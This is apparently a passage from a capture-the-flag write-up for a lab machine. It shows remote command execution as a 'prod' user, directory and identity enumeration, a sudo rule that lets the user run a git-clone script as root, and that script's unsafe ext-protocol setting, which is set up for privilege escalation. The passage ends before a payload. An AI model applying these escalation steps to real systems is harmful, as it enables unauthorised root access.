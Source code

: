 
```python
pprint(run_prod_command('ls -alhn'))
pprint(run_prod_command('whoami'))
```

    ['total 32K\n',
     'drwxr-x--- 5 1000 1000 4.0K Jun 16 04:39 .\n',
     'drwxr-xr-x 4    0    0 4.0K Jun  5 14:36 ..\n',
     'lrwxrwxrwx 1    0    0    9 Feb  6  2023 .bash_history -> /dev/null\n',
     '-rw-r--r-- 1 1000 1000  220 Jan  6  2022 .bash_logout\n',
     '-rw-r--r-- 1 1000 1000 3.7K Jan  6  2022 .bashrc\n',
     'drwx------ 3 1000 1000 4.0K Jun  5 14:36 .cache\n',
     'drwxrwxr-x 4 1000 1000 4.0K Jun  5 14:36 .local\n',
     '-rw-r--r-- 1 1000 1000  807 Jan  6  2022 .profile\n',
     'drwx------ 2 1000 1000 4.0K Jun  5 14:36 .ssh\n',
     '-rw-r--r-- 1    0    0    0 Jun 16 04:39 test\n']
    ['prod\n']


### ls sudo

There's no flag in this user's directory. However we do have a `sudo` script we can abuse.

```sh
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

The contents of the script show a pretty simple looking git clone.


```python
pprint(run_prod_command('cat /opt/internal_apps/clone_changes/clone_prod_change.py'))
```

    ['#!/usr/bin/python3\n',
     '\n',
     'import os\n',
     'import sys\n',
     'from git import Repo\n',
     '\n',
     "os.chdir('/opt/internal_apps/clone_changes')\n",
     '\n',
     'url_to_clone = sys.argv[1]\n',
     '\n',
     "r = Repo.init('', bare=True)\n",
     'r.clone_from(url_to_clone, \'new_changes\', multi_options=["-c '
     'protocol.ext.allow=always"])\n']

